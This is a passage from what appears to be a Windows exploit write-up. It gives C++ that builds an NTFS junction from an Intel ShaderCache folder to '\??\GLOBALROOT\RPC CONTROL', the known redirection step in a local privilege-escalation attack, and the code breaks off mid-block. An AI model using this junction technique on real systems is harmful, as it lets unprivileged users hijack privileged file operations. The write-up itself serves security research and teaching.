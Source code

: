 Let's continue shall we?  I'll go ahead and create the Junction, like so:

```cpp
void CreateJunction(LPCWSTR linkDir, LPCWSTR targetDir)
{
    HANDLE hFile;
    REPARSE_DATA_BUFFER* reparseData;
    DWORD bytesReturned;
    size_t targetLength;

    // Create the directory for the junction if it doesn't exist
    CreateDirectory(linkDir, NULL);

    // Open the directory
    hFile = CreateFile(linkDir, GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_FLAG_OPEN_REPARSE_POINT | FILE_FLAG_BACKUP_SEMANTICS, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        std::cerr << "Failed to open directory: " << GetLastError() << std::endl;
        return;
    }

    targetLength = wcslen(targetDir) * sizeof(WCHAR);
    reparseData = (REPARSE_DATA_BUFFER*)malloc(REPARSE_DATA_BUFFER_HEADER_SIZE + targetLength + 12);
    if (!reparseData) {
        std::cerr << "Failed to allocate memory." << std::endl;
        CloseHandle(hFile);
        return;
    }

    memset(reparseData, 0, REPARSE_DATA_BUFFER_HEADER_SIZE + targetLength + 12);
    reparseData->ReparseTag = IO_REPARSE_TAG_MOUNT_POINT;
    reparseData->ReparseDataLength = (USHORT)(targetLength + 12);
    reparseData->Reserved = 0;

    reparseData->MountPointReparseBuffer.SubstituteNameOffset = 0;
    reparseData->MountPointReparseBuffer.SubstituteNameLength = (USHORT)targetLength;
    reparseData->MountPointReparseBuffer.PrintNameOffset = (USHORT)(targetLength + sizeof(WCHAR));
    reparseData->MountPointReparseBuffer.PrintNameLength = 0;
    memcpy(reparseData->MountPointReparseBuffer.PathBuffer, targetDir, targetLength);

    // Set the reparse point
    if (!DeviceIoControl(hFile, FSCTL_SET_REPARSE_POINT, reparseData, REPARSE_DATA_BUFFER_HEADER_SIZE + reparseData->ReparseDataLength, NULL, 0, &bytesReturned, NULL)) {
        std::cerr << "Failed to set reparse point: " << GetLastError() << std::endl;
    }
    else {
        std::cout << "Junction created successfully." << std::endl;
    }

    free(reparseData);
    CloseHandle(hFile);
}

 // Create the junction
 CreateJunction(L"C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache", L"\\??\\GLOBALROOT\\RPC CONTROL");

 std::wifstream inFile(L"c:\\users\\public\\recent.txt");

 if (inFile) {
     std::getline(inFile, recentFile); 
     inFile.close();

```